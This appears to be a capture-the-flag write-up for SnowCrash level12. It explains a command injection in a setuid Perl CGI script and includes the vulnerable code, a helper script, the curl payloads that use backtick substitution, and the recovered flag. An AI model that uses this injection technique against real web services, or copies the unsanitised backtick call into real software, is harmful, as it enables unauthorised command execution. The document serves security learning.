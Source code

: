
## level12
Here are the enumeration results
```
level12@SnowCrash:~$ file level12.pl
level12.pl: setuid setgid a perl script, ASCII text executable
```

We are presented with a perl file, here is the code.
```lua=
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

Much like the last level, it seems like the code is already running in a server of port 4646 on localhost.
There are 2 query parameters, namely "x" and "y", which are passed to the function t. The function uses regex to convert alphabets to uppercase and keeps only the first word.
"x", now formatted, is used to egrep the file "/tmp/xd" and redirects stderr to stdout.
The rest of the code checks if the output matches the param "y" and prints 1 or 2 dots.

Our first instinct is to utilize command substitution, but putting the whole command wouldn't work, as the "x" parameter is trimmed to the first word.
To bypass that, we can run the entire command in a script that has a fully uppercase name, like "FLAGGETTER", and substitute that instead.

`/dev/shm/FLAGGETTER`
```bash=
#!/bin/bash

getflag > /dev/shm/flag
```

In order to run the script as a command, we have to add the directory that contains the script to the PATH env variable.

```
export PATH=/dev/shm:$PATH
```

Now we can try to pass the command substitution to the server via curl.

``curl "127.0.0.1:4646?x=\`flaggetter\`&y=y"``

Hmm seems like the flag file wasn't created, what is the error here?

We were stuck here for quite a while, thinking there were problems elsewhere.
We continued to test and in the end, we realized that the updated PATH doesn't carry over to other users.
To resolve the issue, we can use absolute path to run the script.

``curl "127.0.0.1:4646?x=\`/*/*/flaggetter\`&y=y"``

There we go, the flag file is now created at `/dev/shm/flag` and it contains the flag `g1qKMiRpXf53AWhDaU7FEkczr`
